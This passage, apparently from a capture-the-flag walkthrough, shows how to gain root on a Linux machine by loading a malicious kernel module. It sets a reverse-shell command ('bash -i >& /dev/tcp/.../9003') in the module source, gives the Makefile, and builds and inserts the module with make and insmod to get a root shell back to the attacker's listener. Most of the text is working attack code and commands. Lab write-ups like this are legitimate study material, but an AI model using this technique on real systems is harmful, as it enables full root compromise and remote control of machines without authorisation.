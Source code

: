 Modifying code to include our IP address:
```
(...)
static char command[] = "bash -i >& /dev/tcp/10.10.14.2/9003 0>&1"; //Reverse shell change ip and port if needed
(...)
```

Creating _Makefile_:
```
obj-m += revshell.o

all:
        make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules

clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```

Creating kernel module:
```
make
```

Inserting the module into the kernel:
```
insmod revshell.ko
```

After inserting the module into the kernel, the listener on my IP and port 9003 starts a reverse shell as root!
